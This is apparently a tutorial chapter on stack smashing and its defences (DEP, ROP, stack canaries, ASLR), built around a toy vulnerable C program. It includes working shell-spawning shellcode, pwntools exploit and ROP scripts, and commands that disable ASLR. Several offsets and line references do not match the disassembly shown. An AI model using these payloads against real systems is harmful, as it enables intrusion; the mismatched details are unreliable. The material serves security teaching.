

# Chapter 1. Stack Smashing
In this chapter, we discuss the most common and easy-to-understand memory-safety problems: stack buffer overflow. An attacker could leverage such bugs to modity the stack and achieve malicious goals, knowning as stack smashing. We will not dive into the technical details of exploit writting (there are many such tutorials and tools available online, e.g., for CTF training) but mainly discuss why such bugs are dangerous and show how attacks could happen in practice. 

## Section 1.1 Stack Smashing
### 1.1.1 Environment

```shell
uname -a
Linux aisr 5.15.0-102-generic #112~20.04.1-Ubuntu SMP Thu Mar 14 14:28:24 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
clang --version
Ubuntu clang version 17.0.4 (++20231031083147+309d55140c46-1~exp1~20231031083252.61)
Target: x86_64-pc-linux-gnu
Thread model: posix
InstalledDir: /usr/bin
```

### 1.1.2 Warm Up
Let's use the following code snippet as a toy example, which contains a validation process that requires the user to input a key to pass the validation. The code contains a buffer overflow bug because the length of buf is 64 while it may read 160 byte data. Supposing the user neither know a valid key nor can obtain the source code. How can he find a key to pass the validation? 

```c
int validation() {
    int flag = 0;
    char buf[64];
    //printf("buf address: %p\n", (void*)buf);
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){
        write(STDOUT_FILENO, "Key verified!\n", 14);
        flag = 1;
    }else{
        write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    return flag;
}
```

The trick lies in the stack layout, and we can obtain the layout by analyzing its assembly code.

```shell
clang vuln.c -o vuln         ; build the source code.
gdb vuln                     ; load the program to gdb
gdb-> info functions         ; list the functions within the program
Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  write@plt
0x0000000000001040  printf@plt
0x0000000000001050  read@plt
0x0000000000001060  __cxa_finalize@plt
0x0000000000001070  _start
0x00000000000010a0  deregister_tm_clones
0x00000000000010d0  register_tm_clones
0x0000000000001110  __do_global_dtors_aux
0x0000000000001150  frame_dummy
0x0000000000001160  validation
0x00000000000011e0  main
0x0000000000001250  __libc_csu_init
0x00000000000012c0  __libc_csu_fini
0x00000000000012c8  _fini

gdb-> disas validation           ; view the assembly code of the function validation.
Dump of assembler code for function validation:
   0x0000000000001160 <+0>:     push   rbp
   0x0000000000001161 <+1>:     mov    rbp,rsp
   0x0000000000001164 <+4>:     sub    rsp,0x50
   0x0000000000001168 <+8>:     mov    DWORD PTR [rbp-0x4],0x0
   0x000000000000116f <+15>:    lea    rsi,[rbp-0x50]
   0x0000000000001173 <+19>:    lea    rdi,[rip+0xe8a]        # 0x2004
   0x000000000000117a <+26>:    mov    al,0x0
   0x000000000000117c <+28>:    call   0x1040 <printf@plt>
   0x0000000000001181 <+33>:    lea    rsi,[rbp-0x50]
   0x0000000000001185 <+37>:    xor    edi,edi
   0x0000000000001187 <+39>:    mov    edx,0xa0
   0x000000000000118c <+44>:    call   0x1050 <read@plt>
   0x0000000000001191 <+49>:    movsx  eax,BYTE PTR [rbp-0x50]
   0x0000000000001195 <+53>:    cmp    eax,0x24
   0x0000000000001198 <+56>:    jne    0x11c0 <validation+96>
   0x000000000000119e <+62>:    mov    edi,0x1
   0x00000000000011a3 <+67>:    lea    rsi,[rip+0xe6b]        # 0x2015
   0x00000000000011aa <+74>:    mov    edx,0xe
   0x00000000000011af <+79>:    call   0x1030 <write@plt>
   0x00000000000011b4 <+84>:    mov    DWORD PTR [rbp-0x4],0x1
   0x00000000000011bb <+91>:    jmp    0x11d6 <validation+118>
   0x00000000000011c0 <+96>:    mov    edi,0x1
   0x00000000000011c5 <+101>:   lea    rsi,[rip+0xe58]        # 0x2024
   0x00000000000011cc <+108>:   mov    edx,0xb
   0x00000000000011d1 <+113>:   call   0x1030 <write@plt>
   0x00000000000011d6 <+118>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00000000000011d9 <+121>:   add    rsp,0x50
   0x00000000000011dd <+125>:   pop    rbp
   0x00000000000011de <+126>:   ret
```


Let's assume the our porpose is to enforce the function to return 1, so we can trace the data flow of the return value backwards. Starting from Line <+100>, we know the return value of the register (%eax) is moved from the stack -0x4(%rbp). Line <+8> initializes the value of -0x4(%rbp) to 0, while Line <+66> change -0x4(%rbp) to 1. So we can tamper the buffer of -0x4(%rbp) to bypass the validation. Line <+4> tells us the assembly code increases the stack size with 0x50. We can compute the offset of -0x4(%rbp) to the register %rsp should be 0x4b or 76 in decimal. In order to let the function return 1, we can input a 76-byte buf with the last four bytes to be 1.

### 1.1.3 Stack Smashing
A stack smashing attack contains three major steps:
- Step 1. Detect buffer overflow bugs or find an input that can crash a program. This is usually done via fuzz testing. 
- Step 2. Analyze stack layout of the buggy code. In practice, attackers may not be able to obtain the executables. 
- Step 3. Design the exploit. To obtain the shell. e.g., with return-oriented programming.

Now, we discuss a more general senario, i.e., 1) the attacker cannot obtain the binaries, and 2) his goal is to obtain the shell. 

#### Stack Layout Analysis
The purpose is to obtain the offset of the return address so that we can point it to the another code address, e.g., shell code. Let's still use our previous toy program for demonstration. The idea is to input several 'A's (hexdecimal ASCII: 0X41). If it has changed the return addresses, then the program will not be able to continue the execution and report the bad return address. We can gradually increase the length of the input to learn the offset of the return address. 

|                |
|:--------------:|
| previous frame |
|   ret address  |
|       ...      |
|    AAAAAAAA    |

Before experiments, we need to turn on the core dump message
```
#: ulimit -c unlimited
#: sudo sysctl -w kernel.core_pattern=core
```

Input several 'A's and check the core dump message.
```shell
python -c 'print "A"*92'
./vuln
Input your key:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong key!
Segmentation fault (core dumped)

gdb --core core 
Core was generated by `./vuln'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000a41414141 in ?? ()
```
The log message displays a segmentation fault caused by a invalid return address 0x0000000a41414141. Because there are four 'A's, we can know the offset of the return address should be 92-4=88. Note that if you try more a 'A's, the error message may not be 0x0000414141414141 but another different address because 0x0000414141414141 is an invalid code address to the OS.

#### Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```c
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	    buf[i] = shellcode[i]; 
      ((void (*) (void)) buf) ();
}
```
```shell
clang –no-pie -z execstack shell.c -o shell
```

If it works, we can inject the shellcode to the vulnerable program.
```python
#! /usr/bin/env python
from pwn import *
# context.log_level = 'debug'

ret = 0x7fffffffe000
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = shellcode + 'A' * (88-len(shellcode)) + p64(ret)
p = process("./vuln")
p.send(payload)
p.interactive()

```

You have to replace the return address based on your own computer. As a shortcut, you can print the address of `buf`.
```c
printf("buf address: %p\n", (void*)buf);
```

In practice, you can only analyze the address of buf via `gdb`. Note that the address of the shell code may change when starting the `vuln` program via the python code. 
```shell
gdb ./vuln
-> break *validation+31
-> run
-> x/64x $rsp
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```shell
python exstack.py 
[+] Starting local process './vuln': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```

If not, it possibly means you are using the stack protector or the ASLR. Turn off the stack protector when compiling the buggy program to eable the data on the stack to be executable.
```shell
clang -z execstack vuln.c -o vuln
```

You also need to turn off the ASLR.
```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Section 2. Protection Techniques
To prevent smashing attackes, we may either try to avoid buffer overflow bugs or to increase the difficulty of attacks. To avoid buffer overflow bugs, a widely employd technique during programming is fat pointer. Note that it is generally difficult to detect buffer overflow vulnerabilities during compiling time because whether a pointer points to an out-of-bound address is undecidable. The fat pointer contains additional size information which enables the problem to perform runtime boundary check. We leave the detailed discussion of such programming techniques to later chapters. 

The attack and protection techniques coevolve.

Attack: Stack Smashing 
=> Defense: Data Execution Prevention
===> Attack: Return-oriented Programming
=====> Defense ：ASLR, Stack Canary
=======> Attack ：Side Channel 
=========> Defense ：Shadown Stack 
===========> ...

### 1.2.1 DEP 
DEP is a technique that disable the stack data from being executed. It achieves the purpose by setting the flag of the stack to RW instead of RWE.
```shell
clang vuln.c -o vuln 
readelf -l ./vuln
Elf file type is DYN (Shared object file)
Entry point 0x1070
There are 11 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000000040 0x0000000000000040
                 0x0000000000000268 0x0000000000000268  R      0x8
  INTERP         0x00000000000002a8 0x00000000000002a8 0x00000000000002a8
                 0x000000000000001c 0x000000000000001c  R      0x1
      [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
  LOAD           0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x00000000000005d8 0x00000000000005d8  R      0x1000
  LOAD           0x0000000000001000 0x0000000000001000 0x0000000000001000
                 0x00000000000002d5 0x00000000000002d5  R E    0x1000
  LOAD           0x0000000000002000 0x0000000000002000 0x0000000000002000
                 0x00000000000001a0 0x00000000000001a0  R      0x1000
  LOAD           0x0000000000002de8 0x0000000000003de8 0x0000000000003de8
                 0x0000000000000258 0x0000000000000260  RW     0x1000
  DYNAMIC        0x0000000000002df8 0x0000000000003df8 0x0000000000003df8
                 0x00000000000001e0 0x00000000000001e0  RW     0x8
  NOTE           0x00000000000002c4 0x00000000000002c4 0x00000000000002c4
                 0x0000000000000044 0x0000000000000044  R      0x4
  GNU_EH_FRAME   0x000000000000204c 0x000000000000204c 0x000000000000204c
                 0x0000000000000044 0x0000000000000044  R      0x4
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
  GNU_RELRO      0x0000000000002de8 0x0000000000003de8 0x0000000000003de8
                 0x0000000000000218 0x0000000000000218  R      0x1

 Section to Segment mapping:
  Segment Sections...
   00
   01     .interp
   02     .interp .note.gnu.build-id .note.ABI-tag .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt
   03     .init .plt .plt.got .text .fini
   04     .rodata .eh_frame_hdr .eh_frame
   05     .init_array .fini_array .dynamic .got .got.plt .data .bss
   06     .dynamic
   07     .note.gnu.build-id .note.ABI-tag
   08     .eh_frame_hdr
   09
   10     .init_array .fini_array .dynamic .got
```

### 1.2.2 RoP Attack
If DEP is enabled, we cannot inject shellcode directly on the stack. The idea of RoP is to use existing code to achieve the same sematics. For example, we may change the return address to the system function. As long as we can set the patameter to "/bin/sh" before that, we should be able to execute system("/bin/sh") and obtain the shell. 

The following figure demonstrates the mechanism of an RoP attack. We first change the return address to some gaddet code that allow us to assign the parameter value to "/bin/sh". According to the calling convention of x86_64, the first parameter is saved in the rdi register. Therefore, some instructions containing "pop rdi" might be useful as our gadget. In our example, after "pop rdi", the "ret" instruction will use the data on top of the stack as the return address. We set the address to the function entry of system().



```shell
gdb ./vuln
(gdb) break *validation
Breakpoint 1 at 0x1160
(gdb) r
Starting program: /home/aisr/memory_safety/1-stacksmash/vuln
Input your key:
Breakpoint 1, 0x0000555555555160 in validation ()
(gdb) print system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
(gdb) find 0x7ffff7e12290, +2000000, "/bin/sh"
0x7ffff7f745bd
```

Find the version of libc.
```shell
ldd ./vuln
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```

Search for useful gadgets or instruction combinations that can call system("/bin/sh") from the shared library.
```shell
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" | grep rdi
0x00000000000248f2 : pop rdi ; pop rbp ; ret
0x0000000000023b6a : pop rdi ; ret
```

Below is a sample attacking script for reference.
```python
from pwn import *

system_addr = 0x7ffff7e12290
binsh_addr = 0x7ffff7f745bd

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
ret_offset = 0x0000000000023b6a - libc.symbols['system']
ret_addr = system_addr + ret_offset
print(hex(ret_addr))

payload = "A" * 88 + p64(ret_addr) + p64(binsh_addr) + p64(system_addr)
p = process("./vuln")
p.send(payload)
p.interactive()
```

### 1.2.3 Stack Canary 
Stack canary is a widely used technique to check the stack integrity with a sentinel. Developers can enable stack canary with an option -fstack-protector when compiling their code. The generated assembly code is shown as follows.

```shell
clang -fstack-protector vuln.c -o vuln
```

```shell
    0x0000000000001170 <+0>:     push   rbp
   0x0000000000001171 <+1>:     mov    rbp,rsp
   0x0000000000001174 <+4>:     sub    rsp,0x60
   0x0000000000001178 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x0000000000001181 <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001185 <+21>:    mov    DWORD PTR [rbp-0x54],0x0
   0x000000000000118c <+28>:    lea    rsi,[rbp-0x50]
   0x0000000000001190 <+32>:    lea    rdi,[rip+0xe6d]        # 0x2004
   0x0000000000001197 <+39>:    mov    al,0x0
   0x0000000000001199 <+41>:    call   0x1050 <printf@plt>
   0x000000000000119e <+46>:    lea    rsi,[rbp-0x50]
   0x00000000000011a2 <+50>:    xor    edi,edi
   0x00000000000011a4 <+52>:    mov    edx,0xa0
   0x00000000000011a9 <+57>:    call   0x1060 <read@plt>
   0x00000000000011ae <+62>:    movsx  eax,BYTE PTR [rbp-0x50]
   0x00000000000011b2 <+66>:    cmp    eax,0x24
   0x00000000000011b5 <+69>:    jne    0x11dd <validation+109>
   0x00000000000011bb <+75>:    mov    edi,0x1
   0x00000000000011c0 <+80>:    lea    rsi,[rip+0xe4e]        # 0x2015
   0x00000000000011c7 <+87>:    mov    edx,0xe
   0x00000000000011cc <+92>:    call   0x1030 <write@plt>
   0x00000000000011d1 <+97>:    mov    DWORD PTR [rbp-0x54],0x1
   0x00000000000011d8 <+104>:   jmp    0x11f3 <validation+131>
   0x00000000000011dd <+109>:   mov    edi,0x1
   0x00000000000011e2 <+114>:   lea    rsi,[rip+0xe3b]        # 0x2024
   0x00000000000011e9 <+121>:   mov    edx,0xb
   0x00000000000011ee <+126>:   call   0x1030 <write@plt>
   0x00000000000011f3 <+131>:   mov    eax,DWORD PTR [rbp-0x54]
   0x00000000000011f6 <+134>:   mov    DWORD PTR [rbp-0x58],eax
   0x00000000000011f9 <+137>:   mov    rax,QWORD PTR fs:0x28
   0x0000000000001202 <+146>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000001206 <+150>:   cmp    rax,rcx
   0x0000000000001209 <+153>:   jne    0x1218 <validation+168>
   0x000000000000120f <+159>:   mov    eax,DWORD PTR [rbp-0x58]
   0x0000000000001212 <+162>:   add    rsp,0x60
   0x0000000000001216 <+166>:   pop    rbp
   0x0000000000001217 <+167>:   ret
   0x0000000000001218 <+168>:   call   0x1040 <__stack_chk_fail@plt>
```

In the assembly code, fs:0x28 stores the sentinel stack-guard value. The code moves the value to -0x8(%rbp) and finally compare it with the original value when the function returns.
|                |
|:--------------:|
| previous frame |
|   ret address  |
|    old rbp     |
|    canary      |
|                |

### 1.2.4 ASLR
ASLR randomizes memory allocations to make memory addresses harder to predict. The technique is implemented by the kernel and the ELF loader. In general, there are three levels of ASLR:
- Stack ASLR: each execution results in a different stack address.
- Mmap ASLR: each execution results in a different memory map.
- Exec ASLR: the program is loaded into a different memory location in each each execution. This is also known as position-independent executables.

To set the levels of ASLR, use the following command.
```shell
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

Compile the following code to test the effectiveness of ASLR.
```c
#include <stdio.h>
void* getStack(){
   int ptr;
   printf("Stack pointer address: %p\n", &ptr);
   return __builtin_return_address(0);
};

int main(int argc, char** argv){
   printf("Return address: %p\n", getStack());
   int i;
   scanf("%d", &i);
   return 0;

}
```

As displayed below, the address of ptr changes in each execution. Also, the address ranges of the dynamic libraries get changed in each execution.
```shell
./aslr
Stack pointer address: 0x7fff7976b30c
Return address: 0x55910040119b
./aslr
Stack pointer address: 0x7fff006e548c
Return address: 0x55a520b3f19b
./aslr
    linux-vdso.so.1 (0x00007ffc489c1000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f85d28e1000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f85d2aef000)
ldd ./aslr
    linux-vdso.so.1 (0x00007fff5a2ef000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff1e4cab000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ff1e4eb9000)
```

You may disable PIE code use the option '-no-pie' when compiling the program.

```shell
clang -no-pie aslr.c -o aslr
./aslr
Stack pointer address: 0x7ffcdc5f1bac
Return address: 0x40118b
./aslr
Stack pointer address: 0x7fff18f949fc
Return address: 0x40118b
```

Disassembling the two binaries compiled with and without PIE can reveal their difference. Firstly, with no PIE enabled, the ELF file is an EXEC (Executable file).

```shell
readelf -l aslr

Elf file type is EXEC (Executable file)
Entry point 0x401050
There are 11 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
                 0x0000000000000268 0x0000000000000268  R      0x8
  INTERP         0x00000000000002a8 0x00000000004002a8 0x00000000004002a8
                 0x000000000000001c 0x000000000000001c  R      0x1
      [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x0000000000000498 0x0000000000000498  R      0x1000
  LOAD           0x0000000000001000 0x0000000000401000 0x0000000000401000
                 0x0000000000000245 0x0000000000000245  R E    0x1000
  LOAD           0x0000000000002000 0x0000000000402000 0x0000000000402000
                 0x0000000000000188 0x0000000000000188  R      0x1000
  LOAD           0x0000000000002e10 0x0000000000403e10 0x0000000000403e10
                 0x0000000000000228 0x0000000000000230  RW     0x1000
  DYNAMIC        0x0000000000002e20 0x0000000000403e20 0x0000000000403e20
                 0x00000000000001d0 0x00000000000001d0  RW     0x8
  NOTE           0x00000000000002c4 0x00000000004002c4 0x00000000004002c4
                 0x0000000000000044 0x0000000000000044  R      0x4
  GNU_EH_FRAME   0x0000000000002038 0x0000000000402038 0x0000000000402038
                 0x0000000000000044 0x0000000000000044  R      0x4
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
  GNU_RELRO      0x0000000000002e10 0x0000000000403e10 0x0000000000403e10
                 0x00000000000001f0 0x00000000000001f0  R      0x1

 Section to Segment mapping:
  Segment Sections...
   00
   01     .interp
   02     .interp .note.gnu.build-id .note.ABI-tag .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt
   03     .init .plt .text .fini
   04     .rodata .eh_frame_hdr .eh_frame
   05     .init_array .fini_array .dynamic .got .got.plt .data .bss
   06     .dynamic
   07     .note.gnu.build-id .note.ABI-tag
   08     .eh_frame_hdr
   09
   10     .init_array .fini_array .dynamic .got
```

Besides, there are obvious differences in the memory addresses for code.
```shell
   0x0000000000401170 <+0>:     push   rbp
   0x0000000000401171 <+1>:     mov    rbp,rsp
   0x0000000000401174 <+4>:     sub    rsp,0x20
   0x0000000000401178 <+8>:     mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040117f <+15>:    mov    DWORD PTR [rbp-0x8],edi
   0x0000000000401182 <+18>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000401186 <+22>:    call   0x401140 <getStack>
   0x000000000040118b <+27>:    mov    rsi,rax
   0x000000000040118e <+30>:    lea    rdi,[rip+0xe8a]        # 0x40201f
   0x0000000000401195 <+37>:    mov    al,0x0
   0x0000000000401197 <+39>:    call   0x401030 <printf@plt>
   0x000000000040119c <+44>:    lea    rdi,[rip+0xe90]        # 0x402033
   0x00000000004011a3 <+51>:    lea    rsi,[rbp-0x14]
   0x00000000004011a7 <+55>:    mov    al,0x0
   0x00000000004011a9 <+57>:    call   0x401040 <__isoc99_scanf@plt>
   0x00000000004011ae <+62>:    xor    eax,eax
   0x00000000004011b0 <+64>:    add    rsp,0x20
   0x00000000004011b4 <+68>:    pop    rbp
   0x00000000004011b5 <+69>:    ret
```


